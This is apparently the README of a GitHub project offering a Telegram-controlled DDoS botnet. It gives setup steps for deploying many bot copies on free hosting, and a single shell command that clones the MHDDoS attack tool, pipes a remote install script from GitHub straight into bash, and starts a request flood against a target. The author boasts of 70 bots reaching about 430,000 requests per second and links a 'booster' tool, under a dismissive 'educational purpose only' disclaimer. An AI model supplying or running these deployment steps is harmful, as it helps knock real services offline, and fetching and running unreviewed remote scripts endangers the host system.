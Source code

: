 # DDOS Botnet Sample

DDOS BotNet for telegram, just make differents version of this bot with differents telegram token (in .env file pls).

And host it ! (I use [GLITCH](https://glitch.com/dashboard) for simple and free host)
<br><br>
## How use it ?bh

Just clone the repo on your hosting server, make a .env file with a TELEGRAM_TOKEN variable with your telegram token key, 
and make a NUM variable with the name of the bot.
<br><br>
In the shell of your hosting server make this config command : 
<br>
` /usr/bin/python3 -m pip install --upgrade pip && pip3 uninstall telegram && pip3 uninstall telegram-bot python-telegram-bot && pip3 install -r requirements.txt &&git clone https://github.com/MatrixTM/MHDDoS.git && cd MHDDoS && pip3 install -r requirements.txt && curl -s https://raw.githubusercontent.com/SlavaUkraineSince1991/DDoS-for-all/main/scripts/python_git_MHDDoS_proxy_install.sh | bash && python3 ~/MHDDoS/start.py GET example.com 1 100 mhddos_proxy/list 100 5 `
<br>
Now hit the URL of the bot for start (only if your hosting sleep your project in free mode like Glitch), you can also make a bot for start all other bot. 


The installation tutorial is not finished, if you have any problems I can help you.

<br><br>
[+] NEW ! You can now upgrade your requests/s using my [DDOS BOOSTER !](https://github.com/Mehliug-git/DDOS_Booster) It's just a DDOS bot without Telegram, just get a URL and start DDOS !    
<br>
[+] NEW ! : If you just want to test your infrastrucutre open me an Issue and have done this together !!

**In my Botnet I have actually 70 bots, I can go up to ~ 430 000 requests /s**
<br><br>

### Just for educational purpose only, Do, what you want I don’t give a fuck, but it’s not my fault you’re in trouble.

### STOP OPENING ISSUES FOR SHIT
